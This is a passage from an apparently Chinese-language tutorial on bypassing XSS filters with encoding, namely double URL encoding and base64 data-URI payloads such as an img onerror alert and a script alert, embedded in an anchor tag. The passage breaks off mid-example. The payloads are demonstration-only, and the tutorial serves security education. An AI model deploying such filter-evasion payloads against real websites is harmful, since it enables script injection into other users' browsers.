 ```
双url编码：对url编码在进行一次编码 %27 -- > %2527
```

## 二、HTML编码

![在这里插入图片描述](73、XSS跨站脚本攻击/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201114100106545.png)

## 三、javascript编码

![在这里插入图片描述](73、XSS跨站脚本攻击/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201114100106645.png)

## 四、各个编码利用场景

### 1、base64编码

Data协议使用方法：`data:资源类型;编码,内容`
例如：

```html
<a href="可控点">
<iframe src="可控点">

在这种情况下如果过滤了<> ' " javascript的话，那么xss可以这样写，利用base64编码！
将<img src=x onerror=alert(1)>或<script>alert(1)</script> 整条base64编码为 PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==和PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
12345
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
<!--标签一-->
<a href="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</a> <!--新版浏览器不在支持-->

<!--标签二-->
```
